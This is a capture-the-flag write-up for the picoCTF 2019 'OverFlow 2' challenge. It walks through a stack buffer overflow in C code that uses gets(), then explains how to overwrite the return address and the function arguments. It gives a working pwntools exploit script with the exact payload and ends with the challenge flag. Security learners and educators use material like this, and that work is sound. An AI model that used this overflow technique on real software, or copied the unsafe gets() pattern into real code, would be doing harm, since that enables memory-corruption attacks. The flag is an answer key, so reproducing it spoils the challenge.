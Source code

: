 # OverFlow 2 - Points: 250

## Description

Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. Source.

## Solution

Similar to the previous challenge, we have to overwrite the return address to call the ```flag()``` function.
However, this time, we need to pass the correct arguments, 0xDEADBEEF and 0xC0DED00D, in order to have the flag printed.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As with OverFlow 1, we need to overflow the memory allocated for local variables and overwrite the EBP and return address.
We can use the same technique of filling the char array buffer, then printing a recognisable pattern, such as the alphabet, and checking the value of the EBP register in GDB.

This time, we need to write past the return address to set the arguments for the ```flag()``` function.
For this challenge, it is very useful to know where arguments are on the stack.

```
Local variables
EBP
Return Address
Arguments
```

We want to overwrite the return address of ```vuln()``` with the address of the ```flag()``` function.
When this happens, the current stack will be destroyed and a new stack will be created like so:

During execution of ```vuln()```:

```
vuln - Local variables
vuln - old EBP
vuln - Return Address
previous stack
```

Finished execution of ```vuln()```:

```
vuln - Arguments
previous stack
```

Start execution of ```flag()```:

```
flag - Local variables
flag - old EBP
previous stack
```

However, the flag function expects that the stack is structured as normal:

```
flag - Local variables
flag - old EBP
flag - Return Address
flag - Arguments
previous stack
```

Using a buffer overflow, we can overwrite memory in the previous stack just as we would overwrite the return address.

We can see that the top of the previous stack has to include the following in order:

```
flag - Return Address
flag - Arguments
```

The return address doesn't matter in this case as we are not concerned with where the program attempts to return to once the flag has been printed.
We can overwrite this value with an arbitrary address, such as 0x41414141.

Once we've filled the return address, we overwrite the next 8 bytes with the correct arguments.
When we're finished, stack will looks something like this:

```
flag - Local variables
flag - old EBP
0x41414141
0xDEADBEEF
0xC0DED00D
remaining previous stack
```

## Exploit script

This script is pretty much the same as the one used in OverFlow 1.
The difference is that, after printing the buffer and the address of the ```flag()``` function, we add an arbitrary 4 bytes, followed by the two arguments.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 188).encode() + p32(0x080485e6) + ('A' * 4).encode() + p32(0xDEADBEEF) + p32(0xC0DED00D))
vuln.recvline()

print("done")
vuln.interactive()
```

## Flag

```picoCTF{arg5_and_r3turn55897b905}```

